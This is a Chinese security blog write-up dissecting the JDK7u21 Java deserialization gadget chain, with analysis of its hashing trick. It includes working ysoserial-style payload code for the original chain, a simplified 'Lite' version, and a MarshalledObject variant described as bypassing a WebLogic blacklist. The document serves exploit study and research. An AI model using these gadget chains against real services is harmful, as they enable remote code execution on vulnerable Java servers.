









# JDK7u21 系列

# JDK7u21

## 0x01 AnnotationInvocationHandler#equalsImpl()

JDK7u21这条链是对 `AnnotationInvocationHandler` 类的另一个利用，使用的是其中 `equalsImpl()` 方法。




通过 `getMemberMethods()` 方法会直接获取 type 对象的全部方法执行 `invoke()` 反射调用，如果 type 可控就能进行漏洞利用，type 在 `AnnotationInvocationHandler` 构造时传入



## 0x02 equalsImpl 调用

`equalsImpl()` 在 invoke() 方法中被调用，需要满足方法名为 equals 并且参数为1个。invoke() 在之前 CC1 LazyMap 的利用已经分析过，可以通过动态代理的方式执行。将实现了 Templates 接口的在方法调用时委托给`AnnotationInvocationHandler` 处理。

因此我们需要找一个能对 proxy 类调用 equals 的方法，并且传入的 args 参数为我们期望执行的恶意类。



## 0x03 equals调用

在Java中讨论`equals()`方法时，它用于比较对象的内容，以确定它们是否相等。这个方法在 Object 对象中定义了，因此该方法对于所有 Java 对象可用。默认情况下，`Object `类的 `equals()` 方法执行引用比较，即检查两个对象是否指向相同的内存位置，在许多情况下需要在自定义类中重写，以便根据对象的内容而不是内存地址来定义对象的相等性。

而在 JDK 中基于对象内容比较而不是地址的类很多，比如 List 比较列表中的元素是否相等、Set 确保集合中的元素不重复、Map 比较键值对的内容是否相等、String 字符串的内容比较，关于这部分的反序列化知识跳转，本文继续分析 JDK7u21 用到的 HashSet。

在 CC6 的分析中就使用过这个集合，我们知道对象被保存到 HashMap 的 key 中。



在 CC6 利用 put() 触发的 hashcode() 实现 RCE，而要触发这个 equals() 就需要满足

1. 存储在`table`数组中位置`i`的元素`e`的哈希值和传入的`key`的哈希值相等
2. 当前元素的 key 和 传入的 key 值不同



我们前面提到要对 proxy 执行 equals 方法，并且参数为恶意对象，所以这里我们期望的构造就应该是

```
key = (Proxy)AnnotationInvocationHandler
k = TemplatesImpl 实例
```

Ps.  key 是后传入进来比较的，所以在构造 Hashset 时应该先添加 TemplatesImpl 后添加 Proxy，ysoserial 用到 LinkedHashSet 猜测也是想体现这个思想，不过实际还是和添加的顺序相关。

## 0x04 hash比较

接下来就是使得两个对象的hash相等，hash() 方法实际上就是调用了 key 的 hashcode() 方法如下。我们多次执行可以发现 proxy 的值恒定，但是 templates 一直被改变。大多数师傅对这个的解释是 TemplatesImpl 是一个 native 方法，但是我觉得这个地方回归到 Object 对象来解释更好理解。TemplatesImpl 没有重写 hashcode() ，因此仍然继承了 `Object` 类中的默认实现。而 `Object` 类的 `hashCode()` 方法默认使用对象的内存地址来计算哈希值。由于在Java中，对象的内存地址是唯一的，所以默认情况下每个对象的`hashCode()`方法返回的值都是不同的。

```java
    public static void main(final String[] args) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl("command");

        HashMap map = new HashMap();
        map.put("1", 1);
        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
        Reflections.setFieldValue(tempHandler, "type", Templates.class);
        Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);


        System.out.println("proxy: " + hash(proxy));
        System.out.println("templates: " + hash(templates));
    }

final int hash(Object k) {
        int h = 0;
//        if (useAltHashing) {
//            if (k instanceof String) {
//                return sun.misc.Hashing.stringHash32((String) k);
//            }
//            h = hashSeed;
//        }

        h ^= k.hashCode();

        // This function ensures that hashCodes that differ only by
        // constant multiples at each bit position have a bounded
        // number of collisions (approximately 8 at default load factor).
        h ^= (h >>> 20) ^ (h >>> 12);
        return h ^ (h >>> 7) ^ (h >>> 4);
    }

//
proxy: 6651
templates: 435125978
proxy: 6651
templates: 122905416
```

那么 proxy 的 hash 是怎么产生的呢？既然是恒定的值，能否想办法让其等于 templates 的值？

继续看，由于动态代理的特性，计算 proxy 的 `hashcode()` 时仍然会执行  `AnnotationInvocationHandler#invoke()` ，进入重写过后的 `hashCodeImpl()` 方法。



```java
private int hashCodeImpl() {
    int result = 0;
    for (Map.Entry<String, Object> e : memberValues.entrySet()) {
        result += (127 * e.getKey().hashCode()) ^
            memberValueHashCode(e.getValue());
    }
    return result;
}
```

分析一下这个方法，这个方法会遍历所有的 memberValues，计算 `127 * ((String)var3.getKey()).hashCode() ^ memberValueHashCode(var3.getValue())` 的值并求和，`memberValueHashCode()` 当传入参数不为数组时将直接计算对象的 hashcode。设想 Map 如果为空则结果为0，Map为 1 则为 `(127 * key.hash) ^ (value.hash)` ，这里利用异或的一个性质，任何数与0异或都是本身，如果 key.hash 为0，则式子结果为 value 的hash。而 value 是通过 memberValues 传递的可控，所以可以构造使得等于 TemplatesImpl 。

那么接下来就是找一个 hashCode 为0的 key，ysoserial给出的是 f5a5a608 

```java
public static void bruteHashCode()
{
	for (long i = 0; i < 9999999999L; i++) {
	if (Long.toHexString(i).hashCode() == 0) {
	System.out.println(Long.toHexString(i));
		}
	}
}
```

# JDK7u21Lite

## 0x05 一点疑问

关于 gadget 结尾反射修改 `_auxClasses` 和 `_class` 的操作，这里存在一个疑问，在实际测试过程中会发现去掉这两行代码依旧可以执行，那么这两行代码的作用是什么？找了很多师傅的分析文章都没有对这个问题有很好的说明，分析一下。

```java
Reflections.setFieldValue(templates, "_auxClasses", null);
Reflections.setFieldValue(templates, "_class", null);
```

在 TemplatesImpl 的分析中，我们分析过需要进入 `defineTransletClasses()` 对 _class 数组赋值，因此需要满足 `if (_class == null)` 的条件，这里就存在一个问题：忽略了 _class 除了这个属性值还会在哪改动。我们在代码中寻找到构造方法会对 `_class` 进行修改。但实际上 ysoserial 的 `Gadgets.createTemplatesImpl(command);` 是调用的空构造方法，并不会对这个值进行修改，这也是为什么前面的 CC、CB 链并没有额外的操作。



那么是否意味着 JDK7u21 这个方法就会调用这个有参构造方法对 `_class` 进行修改呢？因为前文分析到 `equalsImpl()` 中会获取 type 对象的全部方法。事实上代码中的  `getMemberMethods()`  方法返回的是  `Method`  类型的数组，而  `Method`  类型表示类中的方法，不包括构造方法，因此同样不存在对 `_class` 的修改，`_auxClasses` 的修改就更简单了，都发生在命令执行之后并不影响。到这也解释了为什么这两行代码是可有可无的了。


在了解清楚这个问题后，我们就可以对调用链进行简化 JDK7u21Lite

```java
public Object getObject(String command) throws Exception {
    Object templates = Gadgets.createTemplatesImpl(command);

    InvocationHandler handler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, new HashMap<>());
    Reflections.setFieldValue(handler, "type", Templates.class);
    Templates proxy = Gadgets.createProxy(handler, Templates.class);

    String zeroHashCodeStr = "f5a5a608";

    LinkedHashSet set = new LinkedHashSet();
    set.add(templates);
    set.add(proxy);

    HashMap map = new HashMap();
    map.put(zeroHashCodeStr, templates);

    Reflections.setFieldValue(handler, "memberValues", map);
    return set;
}
```

# JDK7u21variant

## 0x06 MarshalledObject

这个调用链的写法其实是对 Weblogic 黑名单的一个绕过 `com.sun.org.apache.xalan.internal.xsltc.trax` 被加入了黑名单，weblogic 的 poc 是用的 `weblogic.corba.utils.MarshalledObject` 来封装，JDK7u21variant 用的是 `java.rmi.MarshalledObject` 。

之前在 JDK7u21 的分析中说到 `getMemberMethods()` 会执行所有的方法，那么如果存在一个新的 kick-off 能调用之前 JDK7u21 的 gadget 也同样可以执行。

在 `java.rmi.MarshalledObject#get()` 方法中，会读取 objBytes 并反序列化。



而 objBytes 通过 `MarshalledObject` 的构造方法接收一个对象并存储，那么其实这条 gadget 的思路就很简单了，用 `MarshalledObject` 套一层 JDK7u21 ，后半部分的链子和 JDK7u21保持一致就可以了。



所以最后构造出来 JDK7u21variant 如下：

```java
@Override
public Object getObject(String command) throws Exception {
   Object obj = new Jdk7u21().getObject(command);

   String zeroHashCodeStr = "f5a5a608";

   HashMap map = new HashMap();
   map.put(zeroHashCodeStr, "foo");

   InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
   Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);

   MarshalledObject marshalledObject = new MarshalledObject(obj);
   Reflections.setFieldValue(tempHandler, "type", MarshalledObject.class);

   LinkedHashSet set = new LinkedHashSet(); // maintain order
   set.add(marshalledObject);
   set.add(proxy);
   map.put(zeroHashCodeStr, marshalledObject); // swap in real object
   return set;
}
```

**参考**

> Java安全漫谈 - 18.原生反序列化利用链JDK7u21
>
> https://xz.aliyun.com/t/7236
>
> https://forum.butian.net/share/125

